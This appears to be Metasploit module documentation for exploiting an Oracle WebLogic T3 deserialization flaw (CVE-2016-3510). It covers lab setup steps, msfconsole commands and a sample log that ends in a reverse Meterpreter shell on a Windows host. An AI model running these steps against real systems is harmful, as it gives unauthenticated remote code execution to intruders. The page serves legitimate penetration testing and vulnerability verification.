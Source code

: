 ## Description
Oracle WebLogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE
2016-3510), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3
could exploit the vulnerability. This module has been tested against Oracle WebLogic Server v10.3.6.0 and v12.1.3.0
running on Windows 7 x64 using JDK v7u80.

### Setup (Windows)

Use the following steps to install a vulnerable instance of WebLogic v10.3.6.0 on a Windows 7 SP1 x64 system.

1. Install the Java SE Development Kit 7 Update 80 (64-bit version) from [Oracle][1] (use the `jdk-7u80-windows-x64.exe`
  installer). Leave all options at their default values.
1. Download "Oracle WebLogic Server 10.3.6" from their [site][2]. Select the generic installer under the "Installers
  with Oracle WebLogic Server and Oracle Coherence" section, the file is named `wls1036_generic.jar`. You may need to
  register an account.
1. From an administrative command prompt, use java to run the jar file.
    * Run: `"C:\Program Files\Java\jdk1.7.0_80\bin\java.exe" -jar wls1036_generic.jar`
1. Leave all options at their default values.
    * OPTIONAL: When prompted to register for security updates, uncheck "I wish to receive security updates via My
      Oracle Support" and confirm that you do in fact wish to remain uninformed of *critical security* issues.
    * When prompted to select the installation type, use the default "Typical" setting.
    * At the end, leave "Run Quickstart" checked and select "Done".
1. From the Quick Start menu, select "Getting started with WebLogic Server 10.3.6" to launch the configuration wizard.
1. Complete this wizard using all of the default values.
    * When prompted to enter a password, set any desired value. Knowledge of the password is not required in order to
      demonstrate this vulnerability or modify any settings in the future.
1. Start the service by navigating to the Start Menu and selecting: `All Programs > Oracle WebLogic > User Projects >
  base_domain > Start Admin Server for WebLogic`.

### Setup (Linux)

Use the following steps to install a vulnerable instance of WebLogic v10.3.6.0 in a Docker container. The same image
used to demonstrate [CVE-2017-10271][3] can be used.

1. Use git to clone the vulhub/vulhub repository from GitHub.
    * Run: `git clone https://github.com/vulhub/vulhub`
1. From within the `weblogic/CVE-2017-10271` subdirectory, use Docker to run the image.
    * Run: `docker-compose up -d`
    * TCP port 7001 should now be listening on the host machine.

## Vulnerable Application
Oracle WebLogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize_marshalledobject`
3. `set rhosts <rhost>`
4. `set rport <srvport>`
5. `exploit`

## Scenarios
### Windows 7 x64 running Oracle WebLogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
```
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rhost 192.168.192.6
rhost => 192.168.192.6
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rport 7001
rport => 7001
msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > exploit

[*] Started reverse TCP handler on 192.168.192.136:4444 
[*] 192.168.192.6:7001 - Sending handshake...
[*] 192.168.192.6:7001 - Sending T3 request object...
[*] 192.168.192.6:7001 - Sending client object payload...
[*] Sending stage (179779 bytes) to 192.168.192.6
[*] Meterpreter session 8 opened (192.168.192.136:4444 -> 192.168.192.6:49276) at 2018-12-14 11:44:30 -0800

meterpreter > sysinfo
Computer        : GIOTTO-HS-W7
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

[1]: https://www.oracle.com/java/technologies/javase/javase7-archive-downloads.html
[2]: https://www.oracle.com/middleware/technologies/weblogic-server-downloads.html
[3]: https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271
